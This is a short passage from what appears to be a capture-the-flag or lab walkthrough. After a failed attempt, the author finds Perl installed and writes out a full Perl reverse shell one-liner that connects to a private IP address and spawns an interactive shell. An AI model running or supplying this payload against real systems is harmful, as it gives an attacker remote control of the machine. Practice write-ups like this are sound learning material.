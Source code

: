 Didn't work. Let's find out what packages are installed:

![](images/2020-08-24-21-43-31.png)

Perl is installed, let's try a perl reverse shell:

perl -e 'use Socket;$i="10.8.82.167";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

![](images/2020-08-24-21-44-27.png)

